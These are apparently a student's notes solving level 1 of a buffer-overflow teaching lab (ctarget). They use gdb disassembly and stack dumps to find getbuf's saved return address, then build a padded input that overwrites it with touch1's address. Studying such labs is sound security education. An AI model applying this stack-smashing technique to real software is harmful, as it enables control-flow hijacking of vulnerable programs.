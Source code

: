 Start `gdb ctarget`

> layout asm
> b Gets

Function test

```asm
   |0x40181a <test>         sub    0x8,%rsp
   │0x40181e <test+4>       mov    0x0,%eax
   │0x401823 <test+9>       callq  0x4016a0 <getbuf>
   │0x401828 <test+14>      mov    %eax,%esi
   │0x40182a <test+16>      mov    0x403f08,%edi
   │0x40182f <test+21>      mov    0x0,%eax
   │0x401834 <test+26>      callq  0x400c60 printf@plt
   │0x401839 <test+31>      add    $0x8,%rsp
   │0x40183d <test+35>      retq                        
```



Call getbuf

```asm
    0x4016a0 <getbuf>               sub    $0x18,%rsp
   │0x4016a4 <getbuf+4>             mov    %rsp,%rdi   
   │0x4016a7 <getbuf+7>             callq  0x4018da <Gets>
   │0x4016ac <getbuf+12>            mov    $0x1,%eax      
   │0x4016b1 <getbuf+17>            add    $0x18,%rsp     
   │0x4016b5 <getbuf+21>            retq                                          
```

Call Gets

B+ │0x4018da <Gets>                 push   %r12                                                                                            │
   │0x4018dc <Gets+2>               push   %rbp                                                                                            │
   │0x4018dd <Gets+3>               push   %rbx                                                                                            │
  >│0x4018de <Gets+4>               mov    %rdi,%r12                                                                                       │
   │0x4018e1 <Gets+7>               movl   $0x0,0x204cf9(%rip)        # 0x6065e4 <gets_cnt>                                                │
   │0x4018eb <Gets+17>              mov    %rdi,%rbx                                                                                       │
   │0x4018ee <Gets+20>              jmp    0x401901 <Gets+39>                                                                              │
   │0x4018f0 <Gets+22>              lea    0x1(%rbx),%rbp                                                                                  │
   │0x4018f4 <Gets+26>              mov    %al,(%rbx)               #Here we copy char by char the string !!!!!!! (1)                                                                         │
   │0x4018f6 <Gets+28>              movzbl %al,%edi                                                                                        │
   │0x4018f9 <Gets+31>              callq  0x401840 <save_char>                    # (2)                                                          │
   │0x4018fe <Gets+36>              mov    %rbp,%rbx                                                                                       │
   │0x401901 <Gets+39>              mov    0x2040a8(%rip),%rdi        # 0x6059b0 <infile>                                                  │
   │0x401908 <Gets+46>              callq  0x400d30 <_IO_getc@plt>                                                                         │
   │0x40190d <Gets+51>              cmp    $0xffffffff,%eax                                                                                │
   │0x401910 <Gets+54>              je     0x401917 <Gets+61>                                                                              │
   │0x401912 <Gets+56>              cmp    $0xa,%eax                                                                                       │
   │0x401915 <Gets+59>              jne    0x4018f0 <Gets+22>                                                                              │
   │0x401917 <Gets+61>              movb   $0x0,(%rbx)                                                                                     │
   │0x40191a <Gets+64>              mov    $0x0,%eax                                                                                       │
   │0x40191f <Gets+69>              callq  0x401898 <save_term>                                                                            │
   │0x401924 <Gets+74>              mov    %r12,%rax                                                                                       │
   │0x401927 <Gets+77>              pop    %rbx                                                                                            │
   │0x401928 <Gets+78>              pop    %rbp                                                                                            │
   │0x401929 <Gets+79>              pop    %r12                                                                                            │
   │0x40192b <Gets+81>              retq                              


We check here the stack :
(gdb) x/10x $rsp
0x55617468:     0x55586000	0x00000000	0x55685fe8	0x00000000
0x55617478:     0x00000001	0x00000000	0x004016ac	0x00000000
0x55617488:     0x00000000	0x00000000

We identify the return address here 0x004016ac
We want to override this address with the address of touch1
0x4016b6 <touch1>               sub    $0x8,%rsp                                                                                       │
   │0x4016ba <touch1+4>             movl   $0x1,0x2042f8(%rip)        # 0x6059bc <vlevel>                                                  │
   │0x4016c4 <touch1+14>            mov    $0x403e46,%edi                                                                                  │
   │0x4016c9 <touch1+19>            callq  0x400c30 <puts@plt>                                                                             │
   │0x4016ce <touch1+24>            mov    $0x1,%edi                                                                                       │
   │0x4016d3 <touch1+29>            callq  0x401ac9 <validate>                                                                             │
   │0x4016d8 <touch1+34>            mov    $0x0,%edi                                                                                       │
   │0x4016dd <touch1+39>            callq  0x400dc0 <exit@plt>                                      



(1) we check $rbx = 0x55617488

Enter antoine

(2)
After executing we check 'a' is in address ...80 
x/50b $rsp
0x55617468:     0x00    0x60    0x58    0x55    0x00    0x00    0x00    0x00
0x55617470:     0xe8    0x5f    0x68    0x55    0x00    0x00    0x00    0x00
0x55617478:     0x01    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x55617480:     0xac    0x16    0x40    0x00    0x00    0x00    0x00    0x00
0x55617488:     0x61    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x55617490:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x55617498:     0x00    0x60

character dump
x/50c $rsp
0x55617468:     0 '\000'        96 '`'	88 'X'	85 'U'	0 '\000'        0 '\000'        0 '\000'        0 '\000'
0x55617470:     -24 '\350'	95 '_'	104 'h'	85 'U'	0 '\000'        0 '\000'        0 '\000'        0 '\000'
0x55617478:     1 '\001'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'
0x55617480:     -84 '\254'	22 '\026'	64 '@'	0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'
0x55617488:     97 'a'	0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'
0x55617490:     0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'
0x55617498:     0 '\000'        96 '`'

after iterations

x/50c $rsp
0x55617468:     0 '\000'        96 '`'	88 'X'	85 'U'	0 '\000'        0 '\000'        0 '\000'        0 '\000'
0x55617470:     -24 '\350'	95 '_'	104 'h'	85 'U'	0 '\000'        0 '\000'        0 '\000'        0 '\000'
0x55617478:     1 '\001'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'
0x55617480:     -84 '\254'	22 '\026'	64 '@'	0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'
0x55617488:     97 'a'	110 'n'	116 't'	111 'o'	105 'i'	110 'n'	101 'e'	0 '\000'
0x55617490:     0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'
0x55617498:     0 '\000'        96 '`'



Finally :

0x55617478:     0x01    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x55617480:     0xac    0x16    0x40    0x00    0x00    0x00    0x00    0x00  < This is return address
0x55617488:     0x61    0x6e    0x74    0x6f    0x69    0x6e    0x65    0x00  < This is antoine



Now we rerun and enter antoine1antoine

(gdb) x/60b $rsp
0x55617468:     0x00    0x60    0x58    0x55    0x00    0x00    0x00    0x00
0x55617470:     0xe8    0x5f    0x68    0x55    0x00    0x00    0x00    0x00
0x55617478:     0x01    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x55617480:     0xac    0x16    0x40    0x00    0x00    0x00    0x00    0x00
0x55617488:     0x61    0x6e    0x74    0x6f    0x69    0x6e    0x65    0x31
0x55617490:     0x61    0x6e    0x74    0x6f    0x69    0x6e    0x65    0x00
0x55617498:     0x00    0x60    0x58    0x55    0x00    0x00    0x00    0x00
0x556174a0:     0x28    0x18    0x40    0x00


We notice we cannot reach the address 0x55617480 BUT we can overwrite 0x556174a0 which contains the return address of
function getbuf !

we need 3*8 = 24 empty chars, then enter little endian of 0x 40 16 b6  -> b6 16 40


./hex2raw < ctarget.in1 | ./ctarget with ctarget.in1
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 b6 16 40


( Actually we could have seen the number of padding 00 in getbuf
   │0x4016a0 <getbuf>       sub    $0x18,%rsp                                                                                              │
   │0x4016a4 <getbuf+4>     mov    %rsp,%rdi                                                                                               │
   │0x4016a7 <getbuf+7>     callq  0x4018da <Gets>                                                                                         │
   │0x4016ac <getbuf+12>    mov    $0x1,%eax                                                                                               │
  >│0x4016b1 <getbuf+17>    add    $0x18,%rsp       
18 +6 = 24 (decimal)  
)


